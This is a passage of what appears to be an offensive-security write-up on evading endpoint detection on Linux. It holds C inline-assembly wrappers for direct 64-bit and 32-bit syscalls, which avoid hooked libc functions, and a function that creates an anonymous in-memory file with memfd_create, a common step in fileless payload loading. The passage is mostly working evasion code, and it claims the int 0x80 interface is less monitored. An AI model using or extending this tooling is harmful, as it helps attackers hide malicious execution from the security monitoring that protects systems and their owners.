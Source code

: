 #### Direct Syscall Implementation

To avoid EDR hooking of libc functions, we use inline assembly for direct syscalls:

```c
// Direct 64-bit syscall
static inline long syscall_direct_64(long number, long arg1, long arg2, long arg3) {
    long ret;
    register long r10 asm("r10") = arg3;
    
    asm volatile(
        "syscall"
        : "=a" (ret)
        : "0" (number), "D" (arg1), "S" (arg2), "d" (r10)
        : "rcx", "r11", "memory"
    );
    
    return ret;
}

// Direct 32-bit syscall
static inline long syscall_direct_32(long number, long arg1, long arg2, long arg3) {
    long ret;
    
    asm volatile(
        "int $0x80"
        : "=a" (ret)
        : "0" (number), "b" (arg1), "c" (arg2), "d" (arg3)
        : "memory"
    );
    
    return ret;
}
```

Why This Works:

- 32-bit Syscall: The int $0x80 interface is legacy and less monitored than modern syscall instruction

#### Memory File Descriptor Creation

```c
static int create_memfd(const char *name) {
    long fd = syscall_direct_64(__NR_memfd_create, (long)name, 0, 0);
    
    if (fd < 0) {
        fprintf(stderr, "[!] memfd_create failed: %s\n", strerror(-fd));
        return -1;
    }
    
    printf("[+] memfd created: fd=%ld (%s)\n", fd, name);
    return (int)fd;
}
```
